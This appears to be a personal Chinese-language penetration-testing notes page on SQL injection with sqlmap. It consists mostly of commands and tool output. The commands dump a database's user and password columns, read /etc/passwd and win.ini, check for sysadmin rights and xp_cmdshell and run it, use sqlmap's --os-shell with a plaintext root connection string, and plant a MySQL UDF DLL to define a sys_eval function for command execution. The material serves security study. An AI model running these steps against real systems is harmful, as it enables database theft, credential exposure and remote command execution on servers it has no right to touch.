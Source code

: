 ```yaml
---
title:      "「SQL注入」:SQL-SHELL"
author:     "Bin4xin"
catalog: true

article_header:
  type: cover

tags:
    - 笔记
    - 漏洞复现
    - CVE

---
```




## sqlmap注入方法

```bash

sqlmap -r Desktop/uid.txt --current-user

sqlmap -r Desktop/uid.txt -D aiweb1 --tables

sqlmap -r Desktop/uid.txt -D aiweb1 -T systemUser --columns

sqlmap -r Desktop/uid.txt -D aiweb1 -T systemUser -C id,password,userName

sqlmap -r Desktop/uid.txt --file-read="/etc/passwd"

sql-shell> select load_file('/etc/passwd')

```

```javascript
查看数据库信息和系统版本
sql-shell> select @@version
[14:29:22] [INFO] fetching SQL SELECT statement query output: 'select @@version'
select @@version:    'Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (X64) \n\tApr  2 2010 15:48:46 \n\tCopyright (c) Microsoft Corporation\n\tStandard Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1)\n'

验证是否为sa权限
sql-shell> select IS_SRVROLEMEMBER('sysadmin')
[14:30:08] [INFO] fetching SQL SELECT statement query output: 'select IS_SRVROLEMEMBER('sysadmin')'
select IS_SRVROLEMEMBER('sysadmin'):    '1'

判断目标机的MSSQL服务是否存在`xp_cmdshell`扩展存储过程：
sql-shell> select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
[14:31:00] [INFO] fetching SQL SELECT statement query output: 'select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell''
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';:    '1'
只要返回结果不是`0`就说明存在`xp_cmdshell`扩展存储过程。
```
## 遇到问题

```javascript
sql-shell> Exec master..xp_cmdshell 'whoami';
[14:32:58] [WARNING] execution of non-query SQL statements is only available when stacked queries are supported
```



## how
sqlmap -r /home/tool/sqlmap-data/wsdl-inject/net-test1.txt --batch --file-read="C:\Windows\win.ini"
```javascript
[14:24:08] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2008 R2 or 7
web application technology: ASP.NET 4.0.30319, Microsoft IIS 7.5, ASP.NET
back-end DBMS: Microsoft SQL Server 2008
[14:24:08] [ERROR] none of the SQL injection techniques detected can be used to read files from the underlying file system of the back-end Microsoft SQL Server server
```

## ?os-shell?
mysql:
select password(''),concat('*',sha1(unhex(sha1(''))));
sqlmap -d "mysql://root:Hehe123456@192.168.192.120:3306/test" --os-shell





```bash
select "hex" into outfile "D:/phpStudy/MySQL/lib/plugin/udf.dll"
```

CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
